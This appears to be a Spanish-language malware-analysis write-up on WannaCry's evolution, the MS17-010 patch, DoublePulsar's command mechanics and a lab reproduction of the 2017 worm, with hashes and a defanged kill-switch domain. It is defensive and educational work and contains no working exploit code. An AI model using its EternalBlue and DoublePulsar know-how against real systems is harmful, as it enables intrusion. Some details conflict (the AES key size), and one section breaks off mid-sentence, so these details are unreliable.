



### 🔬 Características Clínicas del Espécimen Primitivo

A diferencia de la devastadora campaña global que se desataría en mayo de 2017, el análisis estático y dinámico de este binario primitivo reveló detalles que exponen su naturaleza puramente experimental o de campaña de bajo alcance:

* **Ausencia de Propagación Autónoma (Sin Gusano):** Esta variante no contenía el componente de red que implementaba el exploit *EternalBlue*. Carecía de la capacidad de escanear el puerto 445 (TCP) y auto-replicarse de forma masiva a través del protocolo SMB. Su vector de infección dependía en su totalidad de métodos de distribución tradicionales (como campañas de spam muy acotadas).
* **Mismo Motor Criptográfico, Distinta Fachada:** El binario ya implementaba la arquitectura de cifrado híbrido usando APIs de Windows para generar llaves simétricas AES de 128 bits que luego eran protegidas con un par de llaves asimétricas RSA. Sin embargo, los textos informativos, el diseño visual de la interfaz y las direcciones de billeteras Bitcoin eran diferentes a la versión que paralizó los sistemas hospitalarios globales meses después.
* **Sistema de "Kill Switch" Inexistente:** Tampoco incluía la famosa verificación del dominio no registrado que posteriormente sirvió para frenar la variante de propagación masiva. Era un ejecutable monolítico enfocado de forma estricta en su rutina interna de destrucción local de archivos.

---

## 🛡️ Parche de Vulnerabilidad de Microsoft: MS17-010 (14 de Marzo de 2017)

Al identificar la gravedad de la falla estructural en el protocolo SMBv1, Microsoft desplegó de emergencia el boletín de seguridad **MS17-010**. Esta actualización modificó la forma en que el driver del sistema (`srv.sys`) procesaba y validaba la longitud de los paquetes FEA (*Full Extended Attribute*), neutralizando por completo las técnicas de *Grooming* y desbordamiento en el pool de memoria del kernel.

---

### 🗺️ Matriz de Distribución y Limitaciones de Soporte

El lanzamiento inicial del parche expuso una de las brechas de infraestructura más grandes de la década, dividiendo los sistemas operativos en dos categorías críticas:

| Sistemas con Soporte Activo (Parcheados en Marzo) | Sistemas Obsoletos / Fin de Soporte (Excluidos Inicialmente) |
| :--- | :--- |
| * Windows 7 (Sistemas Objetivo Principales) <br> * Windows 8.1 / Windows 10 <br> * Windows Server 2008 R2 <br> * Windows Server 2012 / 2016 | * Windows XP <br> * Windows Vista <br> * Windows 8.0 <br> * Windows Server 2003 |

> ⚠️ **El Factor Windows XP:** A pesar de haber finalizado su ciclo de soporte oficial en 2014, un porcentaje masivo de la infraestructura crítica global (cajeros automáticos, sistemas hospitalarios y servidores gubernamentales) dependía enteramente de arquitecturas de 32 y 64 bits de Windows XP en 2017. Al no recibir el parche de forma nativa, estos entornos quedaron completamente desamparados ante el posterior brote del gusano.

---

### ⚙️ El Factor Crítico: Despliegue, Ventanas de Mantenimiento y Windows Update

Contario a la creencia popular de que el parche no estaba en las bases de datos de Windows Update, **Microsoft sí liberó la actualización de forma automática y calificada como "Crítica"** para los sistemas con soporte activo el mismo 14 de marzo. Sin embargo, el verdadero cuello de botella que facilitó la catástrofe global de WannaCry se debió a factores logísticos y humanos dentro de las arquitecturas corporativas:

1. **Parches Acumulativos y Dependencias Previas:** Para que el parche MS17-010 se instalara correctamente a través de Windows Update, muchos sistemas (especialmente Windows 8.1 y Server 2012 R2) requerían tener instaladas actualizaciones de servicio previas (como la *KB2919355*). Si una empresa arrastraba meses de retraso en su ciclo de actualizaciones, el parche fallaba silenciosamente en su instalación automática.
2. **Políticas de Servidores Activos (24/7):** En entornos industriales y médicos, los servidores encargados de bases de datos o control de instrumental médico no pueden reiniciarse de manera imprevista. La instalación del parche requería obligatoriamente un reinicio completo para descargar el driver `srv.sys` corrupto de la memoria y montar la versión corregida. Al no tener programadas ventanas de mantenimiento estrictas, las organizaciones pospusieron el reinicio durante meses.
3. **Desconfianza y Aislamiento de Redes:** Muchos administradores de sistemas desactivaban deliberadamente el servicio de Windows Update en sus infraestructuras por temor a que una actualización inestable corrompiera software propietario crítico, confiando erróneamente en que el perímetro de la red local (LAN) era lo suficientemente seguro para mitigar cualquier ataque externo.

---

## 🧬 La Segunda Versión de WannaCry (WannaCry 2.0)

El **27 de marzo de 2017**, apenas unas semanas después del lanzamiento del parche MS17-010 de Microsoft, el analista e investigador de malware **Karsten Hahn** identificó y aisló la segunda gran evolución de la amenaza. Este espécimen intermedio marcó la transición definitiva hacia la infraestructura visual y destructiva que el mundo conocería durante el brote masivo.

El hash MD5 que identifica unívocamente esta muestra es:
`b0ad5902366f860f85b892867e5b1e87`





### 🔬 Características Clínicas del Espécimen 2.0

Esta versión se sitúa justo en medio del desarrollo experimental inicial y la posterior campaña globalizada, introduciendo cambios críticos en la firma y comportamiento del ataque:

* **Consolidación de la Interfaz Gráfica (GUI):** A diferencia del diseño rústico de la variante 1.0 (analizada por Siri), WannaCry 2.0 introduce la famosa interfaz de color rojo oscuro con dos contadores de tiempo regresivos en el panel izquierdo (uno para el incremento del precio del rescate y otro para la eliminación definitiva de los archivos).
* **Adopción de la Extensión Oficial:** En esta muestra el malware abandona los esquemas de nomenclatura previos e introduce formalmente la extensión de archivo `.wannacry` para marcar todos los datos que han sido sometidos al proceso de cifrado AES-256, no importa si quitas dicha extension pues seguira protegido por sus claves de cifrado correspondientes.
* **Fase de Transición Operativa:** Aunque la interfaz y el motor de cifrado local ya eran idénticos a los de la posterior versión masiva de mayo, este espécimen de finales de marzo todavía **no integraba de forma funcional el módulo de propagación autónoma (gusano) de EternalBlue**. Continuaba siendo un binario cuya distribución requería la intervención de vectores tradicionales o la ejecución manual/dirigida.

---


## 📂 Filtración de Datos de la NSA (National Security Agency) y el Broker de Exploits

Antes de la divulgación oficial del identificador **CVE-2017-0144** por parte de las agencias civiles de seguridad, la Agencia de Seguridad Nacional de EE. UU. (**NSA**), específicamente su brazo de operaciones ofensivas avanzadas conocido como **TAO** (*Tailored Access Operations*), ya explotaba de forma encubierta esta debilidad estructural en el protocolo SMBv1 desde al menos el año 2013. Para operacionalizar este fallo de forma quirúrgica, desarrollaron el arma cibernética conocida como **EternalBlue**.

La pérdida de control sobre este arsenal militar ocurrió mediante una serie de filtraciones ejecutadas por el misterioso grupo conocido como **The Shadow Brokers**. Tras intentar subastar el material sin éxito en 2016, el grupo liberó públicamente el paquete completo de herramientas el **14 de abril de 2017** bajo el lanzamiento bautizado como *"Lost in Translation"*. Esta filtración masiva puso herramientas ofensivas de nivel gubernamental al alcance de cualquier cibercriminal en el mundo, sirviendo como el catalizador directo que los operadores de WannaCry utilizaron para actualizar su binario primitivo semanas después.

---

### 🩻 DoublePulsar: El Implante de Kernel Altamente Sigiloso

Mientras que **EternalBlue** actúa exclusivamente como el vehículo de propulsión (el exploit que abre la brecha en la memoria no paginada del sistema), **DoublePulsar** es el componente de persistencia y carga útil secundaria que se inyecta de forma inmediata en el objetivo. 



#### 🔬 Características Mecánicas e Implantación en Ring 0

A diferencia de las puertas traseras tradicionales basadas en sockets de red comunes o modificaciones en el registro de Windows, DoublePulsar destaca por una arquitectura diseñada específicamente para operaciones de espionaje que evitan por completo dejar rastro en el disco duro:

1. **Inyección Directa en el Pool del Kernel:** DoublePulsar se ejecuta con los máximos privilegios posibles dentro del sistema operativo (**Ring 0**). No genera un archivo ejecutable (`.exe`) ni instala servicios visibles; reside de forma exclusiva en la memoria volátil del equipo afectado.
2. **Abuso del Protocolo SMB como Canal de Comando (C2):** El implante intercepta y secuestra el propio driver legítimo de SMB de Windows. Cuando DoublePulsar está instalado, el atacante puede enviar paquetes SMB especialmente modificados al puerto **445**. Si el paquete contiene códigos de operación (*OpCodes*) específicos en campos como `Multiplex ID (MID)`, el implante responde o ejecuta comandos; si el paquete es tráfico normal de red, deja que Windows lo procese de forma ordinaria, volviéndose invisible para los firewalls tradicionales.
3. **Migración de Procesos y Evasión Avanzada:** Para mantenerse operativo de forma estable sin corromper el hilo principal del sistema, el código inyectado migra o secuestra contextos de ejecución de hilos dentro de procesos críticos del espacio de usuario como **`lsass.exe`** (*Local Security Authority Subsystem Service*). Al camuflarse dentro de procesos nativos del sistema que gestionan las credenciales y la seguridad local, evade las protecciones de los antivirus comerciales y sistemas de detección de intrusos (IDS) que no monitorizan de forma estricta las llamadas cruzadas en memoria a nivel de kernel.

---

#### 🎮 Los Comandos Operativos de DoublePulsar (`Ping`, `Kill`, `Exec`)

Para interactuar con el implante una vez inyectado en el kernel, el operador de la herramienta (o el propio script automatizado de WannaCry) utiliza una estructura de comunicación muy rígida basada en tres comandos primarios codificados de forma binaria. Estos comandos permiten auditar, comandar o autodestruir el backdoor de forma totalmente remota:

##### 1. 📡 El Comando `Ping` (Verificación de Infección)
* **Propósito:** Validar si un equipo de la red ya se encuentra comprometido con el implante sin necesidad de volver a lanzar el exploit de EternalBlue (lo que arriesgaría la estabilidad del sistema operativo y podría causar una pantalla azul).
* **Mecánica Técnica:** El atacante envía una petición SMB legítima (por ejemplo, una solicitud de transacción) pero altera el campo de identificación multiplex (`MID = 0x41` o similar dependiendo de la arquitectura). Si el sistema operativo responde de forma estándar con un error de red, significa que está limpio. Si DoublePulsar está activo en la memoria del kernel, intercepta el paquete antes de que llegue a Windows y responde con un código de confirmación específico (`0x10`), confirmando la persistencia silenciosa.

##### 2. 🚀 El Comando `Exec` (Ejecución de Payloads)
* **Propósito:** Inyectar y ejecutar una carga útil secundaria (un archivo dll, shellcode o, en el caso final, el ejecutable cifrado de WannaCry) directamente dentro de la memoria del sistema operativo sin escribir nada en el disco duro.
* **Mecánica Técnica:** El operador envía el comando `Exec` adjuntando la carga binaria a través de la sesión SMB secuestrada. DoublePulsar recibe el código corrupto en el espacio de kernel (Ring 0), localiza un proceso legítimo en el espacio de usuario (como el mencionado `lsass.exe`) mediante funciones nativas de Windows como `ApcRoutine` (Asynchronous Procedure Calls), inyecta los bytes directamente en la memoria de ese proceso y fuerza un hilo de ejecución para que el malware comience a correr de forma inmediata con privilegios de administrador.

##### 3. ☠️ El Comando `Kill` (Autodestrucción del Implante)
* **Propósito:** Limpiar los rastros de la intrusión de la memoria volátil del equipo objetivo una vez completados los objetivos operativos o para evitar que analistas de seguridad descubran el backdoor durante una auditoría forense.
* **Mecánica Técnica:** Cuando el implante procesa la estructura de comando correspondiente a `Kill`, inicia un bucle de desasignación de memoria. Restaura los punteros originales del driver de Windows `srv.sys` a su estado de fábrica (deshaciendo el secuestro del puerto 445) y posteriormente libera de forma segura los bloques del pool de memoria donde residía su propio código. El sistema sigue funcionando con total normalidad, pero el backdoor desaparece por completo sin dejar evidencia forense física en el almacenamiento.

---

## 🧬 La Tercera Versión de WanaCryptor

El **26 de abril de 2017**, justo en el ecuador temporal entre la filtración de *The Shadow Brokers* y el ataque global de mayo, se compiló la tercera variante evolutiva del malware: **WannaCry 3.0**. Esta versión representa la maduración definitiva del entorno gráfico del software de secuestro justo antes de que se le añadieran los componentes militares de red.

A diferencia de las primeras dos versiones, se cuenta con una única imagen de referencia que documenta este estado intermedio del desarrollo:


### 🔬 Características Clínicas del Espécimen 3.0

Aunque visualmente el código ya era indistinguible de la amenaza masiva definitiva, su lógica interna y sus métodos operativos revelan que seguía perteneciendo a una fase previa a la automatización:

* **Estructura Gráfica y Criptográfica Completa:** En esta versión, el software cuenta con todo el abanico de funciones locales maduras: soporte multi-idioma nativo para las notas de rescate, el sistema de advertencias completamente pulido y la misma clave pública RSA maestra embebida para blindar el descifrado.
* **Vector de Infección Tradicional (Sin EternalBlue ni DoublePulsar):** A pesar de haberse creado casi dos semanas después de la filtración del arsenal de la NSA por parte de *The Shadow Brokers*, los desarrolladores de esta variante **aún no habían integrado las herramientas de explotación de kernel ni el backdoor en el protocolo SMB**. Su propagación seguía estando limitada al envío de archivos adjuntos infectados mediante campañas dirigidas de Ingeniería Social y Phishing de correo electrónico.
* **Ausencia de Autopropagación (Sin Mecanismo de Gusano):** Si el binario era ejecutado en una máquina, cifraba el disco duro local de forma destructiva utilizando la extensión `.wannacry`, pero permanecía estático en ese equipo sin capacidad de saltar de manera autónoma a otros servidores de la subred.

---

## 🦠 El Verdadero Ataque: WanaCryptor 2.0 (La Epidemia Global del 11 y 12 de Mayo)

A partir de este punto, entramos en el núcleo crítico de la investigación: el análisis del evento que transformó un malware convencional de secuestro en la crisis informática global más devastadora de la década. La mutación definitiva se bautizó operativamente como **WanaCryptor 2.0** (o WannaCry 4.0 en la escala evolutiva interna), combinando en un solo espécimen el motor criptográfico local con el poder de propagación militar de **EternalBlue** y **DoublePulsar**.

El brote inicial comenzó a gestarse de forma silenciosa el **11 de mayo de 2017**. Al acoplar el módulo de replicación automática de la NSA, el malware adquirió capacidades de gusano (*worm*), lo que provocó una explosión exponencial de infecciones en cuestión de pocas horas, colocando a infraestructuras críticas del planeta bajo estado de jaque.



---

### 🚨 Descubrimiento y el Primer Hash Clínico

El radar de la comunidad de ciberseguridad detectó la anomalía de madrugada. Uno de los primeros equipos de inteligencia en dar la alarma pública fue la plataforma de analistas independientes **MalwareHunterTeam**, quienes anunciaron el hallazgo formal a las **3:00 AM del 12 de mayo de 2017**. 

El espécimen inicial catalogado de esta variante masiva quedó registrado bajo la siguiente huella digital criptográfica (esencial para firmas de IOC y reglas YARA):

> 🔬 **Hash MD5 de la Primera Variante 2.0:**  
> `84c82835a5d21bbcf75a61706d8ab549`

---

### 📉 La Ventana de Vulnerabilidad: El Factor Humano y de Sistemas

Un aspecto fundamental para entender la velocidad del contagio es el tiempo transcurrido desde la publicación de las defensas. Microsoft había lanzado el parche crítico **MS17-010** casi dos meses antes (el **14 de marzo de 2017**), el cual cerraba definitivamente la debilidad estructural del protocolo SMBv1 (**CVE-2017-0144**). 

Sin embargo, debido a las políticas de actualización deficientes de las grandes corporaciones, sistemas médicos obsoletos (como Windows XP/2003 que ya no contaban con soporte oficial) y el temor a que los parches rompieran software empresarial crítico, un porcentaje extremadamente bajo de equipos a nivel mundial tenía instalada la actualización de seguridad para el momento del ataque. 

---

### 🚀 Dinámica de Infección Híbrida

A diferencia de sus tres versiones predecesoras, WanaCryptor 2.0 ya no dependía exclusivamente de que una víctima cometiera un error para expandirse. Su vector de ataque mutó hacia un comportamiento dual altamente efectivo:

1. **Paciente Cero (Vector Primario):** La intrusión inicial en una red corporativa u organización se seguía ejecutando mediante métodos tradicionales de ingeniería social, principalmente campañas de **Phishing** dirigidas con archivos adjuntos maliciosos ejecutables en correos electrónicos.
2. **Propagación Autónoma Interna (Efecto Gusano):** Una vez que el "Paciente Cero" ejecutaba el archivo y el binario lograba privilegios en la máquina, el malware activaba inmediatamente un hilo de escaneo de red. Escaneaba de forma masiva el puerto **445 (TCP)** tanto de la subred local (`LAN`) como de rangos de direcciones IP públicas en internet. Al detectar cualquier máquina vulnerable que no tuviera el parche de Microsoft, le lanzaba el exploit **EternalBlue** para romper el kernel, verificaba con un **Ping** oculto e inyectaba el código de WannaCry mediante el comando **Exec** de **DoublePulsar**, repitiendo el ciclo de forma infinita y automatizada sin intervención humana.

---

### 💥 Impacto Global y Daños Operativos (Cierre del 12 de Mayo)

Al finalizar el fatídico **12 de mayo de 2017**, la velocidad de automultiplicación del código arrojó cifras sin precedentes en la historia de la ciberseguridad, consolidando un apagón operativo masivo en cuestión de 24 horas:

* **Métricas de la Infección:** Alrededor de **250,000 ordenadores secuestrados** distribuidos en más de **150 países** en total.
* **Zonas de Mayor Impacto Geográfico:** Rusia, Ucrania, India y Taiwán encabezaron las listas con las mayores densidades de nodos comprometidos por kilómetro cuadrado.

#### 🏢 Corporaciones e Infraestructuras Críticas Colapsadas

| Organización / Empresa | Sector | Impacto Operativo |
| :--- | :--- | :--- |
| **NHS (National Health Service)** | Salud (Reino Unido) | Ambulancias desviadas, quirófanos cancelados y expedientes médicos bloqueados. |
| **Telefónica de España** | Telecomunicaciones | Cierre preventivo de sedes centrales y cifrado de terminales corporativas. |
| **FedEx** | Logística (EE. UU.) | Suspensión de envíos y retrasos masivos en cadenas de distribución global. |
| **Deutsche Bahn (DB)** | Transporte (Alemania) | Pantallas de estaciones de trenes secuestradas mostrando la nota de rescate. |
| **LATAM Airlines** | Aviación | Problemas en sistemas de facturación y retrasos logísticos puntuales. |
| **Renault / Nissan / Honda** | Automotriz | Paro total de líneas de ensamblaje en plantas de producción para contener el brote. |

El impacto financiero directo derivado de estos cierres forzados se tradujo en **pérdidas millonaria

---

## 🔬 Análisis Detallado de WannaCry

Esta sección documenta el funcionamiento interno de **WannaCry** a partir de documentación pública, análisis estático y pruebas realizadas en un laboratorio controlado.

El objetivo es explicar cómo se ejecuta el ransomware, cómo se propaga mediante el protocolo **SMB** utilizando **EternalBlue** y **DoublePulsar**, y cuáles son los principales artefactos que deja durante una infección.

---

### 🖥️ Arquitectura y Configuración del Laboratorio

Para observar el comportamiento del malware sin afectar otros equipos, se utilizó una red aislada en **VMware** mediante una conexión **Host-Only**.

El laboratorio está compuesto por dos máquinas virtuales configuradas de la siguiente manera:

#### Muestra analizada

- **Variante:** WanaCryptor 2.0
- **Hash MD5:** `84c82835a5d21bbcf75a61706d8ab549`

#### VM1 – Paciente Cero

- **Sistema Operativo:** Windows 7 SP1 de 64 bits.
- **Dirección IP:** `10.0.0.10`
- **Rol:** Ejecución manual del binario inicial (*dropper*).

#### VM2 – Objetivo de Replicación

- **Sistema Operativo:** Windows 7 SP1 de 32 bits.
- **Dirección IP:** `10.0.0.20`
- **Rol:** Validar la propagación automática del gusano mediante SMB, sin intervención del usuario.

> ⚙️ **Configuración del Firewall**
>
> Para permitir la explotación de **MS17-010** y la propagación del malware entre ambas máquinas virtuales, fue necesario habilitar la regla **Compartir archivos e impresoras (SMB)** en el Firewall de Windows.



---

### 🧬 El Vector de Infección: Dropper, Worm y Kill-Switch

El binario inicial de WannaCry corresponde a un ejecutable de aproximadamente **3.6 MB**, identificado habitualmente como `mssecsvc.exe` o `lhdfrgui.exe`.

Antes de ejecutar cualquier acción maliciosa, el malware intenta acceder a un dominio codificado mediante las funciones `InternetOpenA()` e `InternetOpenUrlA()` de la API **WinINet**.

- Si el dominio responde correctamente, el proceso finaliza inmediatamente.
- Si la conexión falla —como ocurre en un laboratorio sin acceso a Internet— continúa la ejecución del ransomware.

Este comportamiento dio origen al conocido **kill-switch**, asociado al dominio:

```
iuqerfsodp9ifjaposdfjhgosurijfaewrwergwea[.]com
```

Cuando el ejecutable se inicia sin parámetros desde la línea de comandos, registra un nuevo servicio de Windows llamado **mssecsvc2.0**, simulando pertenecer al sistema operativo bajo la descripción **Microsoft Security Center 2.0**.

Posteriormente extrae desde sus recursos internos (`R/1831`) un segundo ejecutable denominado `tasksche.exe`, almacenándolo en:

```
C:\Windows\
```

Este segundo binario contiene la lógica responsable del cifrado de archivos y de la propagación del ransomware a través de la red.

---

### 🎯 Explotación de Red: EternalBlue + DoublePulsar

Después de comprometer el equipo inicial, WannaCry comienza a escanear la red local en busca de sistemas con el puerto **445/TCP** accesible.

Cuando identifica un equipo vulnerable, utiliza **EternalBlue (MS17-010)** para explotar una vulnerabilidad presente en **SMBv1**.

El exploit envía paquetes **Trans2** especialmente construidos que provocan un *buffer overflow* durante el procesamiento de solicitudes SMB, permitiendo ejecutar código arbitrario en modo **kernel** sin necesidad de autenticación ni interacción del usuario.

Una vez conseguida la ejecución en kernel, WannaCry despliega **DoublePulsar**, una puerta trasera residente únicamente en memoria.

DoublePulsar permite inyectar una DLL arbitraria dentro del proceso `lsass.exe`, mecanismo utilizado para cargar una nueva copia del gusano en el sistema comprometido.

En un equipo que no dispone del parche **MS17-010**, la infección ocurre automáticamente siguiendo este flujo:

1. Escaneo de la red local.
2. Identificación de un host con el puerto 445 abierto.
3. Explotación mediante EternalBlue.
4. Instalación temporal de DoublePulsar.
5. Inyección del payload.
6. Ejecución de una nueva instancia de WannaCry.

No es necesaria ninguna acción por parte del usuario para completar la infección.

---

### 🕹️ Ejecución Dinámica y Evidencia del Ataque

Antes de ejecutar la muestra, se verificó la conectividad entre ambas máquinas virtuales utilizando `ping` y `tracert`.

Como archivo de control se creó `prueba.txt` en el escritorio de la VM1 para observar directamente el proceso de cifrado.

Tras ejecutar el binario, WannaCry modificó inmediatamente el entorno del sistema:

- Sustituyó el fondo de pantalla por la nota de rescate.
- Mostró la interfaz gráfica **Wana Decrypt0r 2.0**.
- Inició los temporizadores de pago.
- Comenzó el cifrado de archivos compatibles.





